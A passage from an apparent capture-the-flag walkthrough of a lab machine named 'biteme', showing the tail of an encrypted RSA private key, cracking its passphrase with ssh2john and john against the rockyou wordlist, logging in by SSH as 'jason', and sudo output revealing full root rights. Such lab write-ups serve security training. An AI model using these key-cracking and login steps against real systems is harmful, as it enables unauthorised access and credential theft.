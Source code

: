 ```
wBvVfNpAD3PmqTpvFLClidnR1mWE4r4G1dHwxjYurEnu9XKO4d+Z1VAPLI2gTmtd
NblKTwZQCWp20rRErOyT9MxjT1gTkVmpiJ0ObzQHOGKJIVaMS8oEng2gYs48nugS
AsafORd3khez4r/5g9opRj8rdCkK83fG5WA15kzcOJ+BqiKyGU26hCbNuOAHaAbq
Zp+Jqf4K6FcKsrL2VVCmPKOvkTEItVIFGDywp3u+v0LGjML0wbrGtGzP7pPqYTZ5
gJ4TBOa5FUfhQPAJXXJU3pz5svAHgTsTMRw7p8CSfedCW/85bMWgzt5XuQdiHZA0
FeZErRU54+ntlJ1YdLEjVWbhVhzHyBXnEXofj7XHaNvG7+r2bH8GYL6PeSK1Iiz7
/SiK/v4kjOP8Ay/35YFyfCYCykhdJO648MXb+bjblrAJldeXO2jAyu4LlFlJlv6/
bKB7viLrzVDSzXIrFHNoVdFmLqT3yEmui4JgFPgtWoHUOQNUw8mDdfCR0x3GAXZP
XIU1Yn67iZ9TMz6z8HDuc04GhiE0hzI6JBKJP8vGg7X8rBuA7DgoFujSOg7e8HYX
7t07CkDJcAfqy/IULQ8pWtEFTSXz1bFpl360v42dELc6BwhYu4Z4qza9FtYS0L/d
ts5aw3VS07Xp5v/pX+RogV8uIa0jOKTkVy5ZnnlJk1qa9zWX3o8cz0P4TualAn+h
dQBVNOgRIZ11a6NU0bhLCJTL2ZheUwe9MTqvgRn1FVsv4yFGo/hIXb6BtXQE74fD
xF6icxCBWQSbU8zgkl2QHheONYdfNN0aesoFGWwvRw0/HMr4/g3g7djFc+6rrbQY
xibeJfxvGyw0mp2eGebQDM5XiLhB0jI4wtVlvkUpd+smws03mbmYfT4ghwCyM1ru
VpKcbfvlpUuMb4AH1KN0ifFJ0q3Te560LYc7QC44Y1g41ZmHigU7YOsweBieWkY2
-----END RSA PRIVATE KEY-----
```

It is encrypted, which means we need to use `ssh2john` to crack it:

```
nano id_rsa
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
1a2b3c4d         (id_rsa)
```

There we go, we got it, let's proceed to ssh then:

```
chmod 600 id_rsa

ssh jason@IP -i id_rsa
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250609162846.png)

We can now begin privilege escalation.

## PRIVILEGE ESCALATION

***

Let's check our privileges:

```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```
